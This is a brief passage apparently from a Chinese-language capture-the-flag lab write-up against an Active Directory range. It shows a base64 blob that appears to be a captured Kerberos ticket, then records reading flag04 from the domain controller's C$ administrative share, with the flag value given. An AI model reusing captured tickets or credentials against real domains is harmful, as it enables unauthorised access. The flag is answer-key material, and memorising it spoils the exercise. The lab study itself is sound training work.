xShHGd0aqhTjM3w9sg2bU0Lt7gNH/VS1QHJa2qnscTRDt46Q2IIfQ19J9EGLd0CzThQv0xZ4pVSngY9hqy6TaVZzXLdXhPaEPUxQY5WHfYvgxX53sjepWTJdqIJJYME85yKgZyArWmhD4415hnRUzoUDvNKHrEQCebzyVZd+eS2eYZfLw/Mfb6cRHMIIfdXJ7ey8zWzzEpeq+8eXNXDH5L5zblHB0Zr14Xp1aMYiATgLdkUsmot6z9VckR1P4STf3ogw/BCQEXmfITTsAFiqh+UWsjl1GTftqYJALzWotROCUBqU/dpea7MnhnbungD55100oMwIofKZo5+3nbMG3vETCkr0HD/tjBH3+sYROOD4pBiQzYh2r36khTc1HMsJ1SgzbcjRezBNVzxdXbp1OSQbY5UVvQiF4Dfd0qiq3ev2Y4WtAKTwvOvfga+tMcNvlcIBTDYnGNKa54vSKx5yaGK1NTREgZTAXGivxqfkW8PLixwR7qVOBT27TwbhAYZ5iVWSCLw/J44J5CTsI1ZGkiZBew9RpLB4Ep6PJCTrDNR5ZRLekYJD31FrgIudYMsa6p5IAKoE0qYXrLJSIWTLodTUjGpSeu05sLNGFDOh6IdN+nnuUHg7xIxtUw33b/ztHuDxzNPBGpm/Qp4KcAHcDWblTx8hN4DQ9w9TEzzXTLHUVFxXRoB2+HfveBrftYlF37UO6496WRvtGmZZrIzEWAW7G5gLWwqqcDVvOO1K8nC2ViPsXHf31lR7k3F3aPKRMw6i34sn1YIsc3cApoYvDAHO6yRGEZ4RBSqsvymr0OPv7yGkCsqO5BFobMc6uvscS04iyUB5X++m8a6qjgdowgdegAwIBAKKBzwSBzH2ByTCBxqCBwzCBwDCBvaAbMBmgAwIBF6ESBBDPuSYlDAXCpCk4nBK0eT7+oQ4bDFhJQU9SQU5HLkxBQqIZMBegAwIBAaEQMA4bDE1TU1FMU0VSVkVSJKMHAwUAQOEAAKURGA8yMDIzMTIyNjA4MjExN1qmERgPMjAyMzEyMjYxODIxMTdapxEYDzIwMjQwMTAyMDgyMTE3WqgOGwxYSUFPUkFORy5MQUKpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDHhpYW9yYW5nLmxhYg==
```



在`\\DC.xiaorang.lab\C$\Users\Administrator\flag\flag04.txt`中获取到`flag04`：`flag{02078200-cdca-4e1b-b320-dd8a75998002}`。


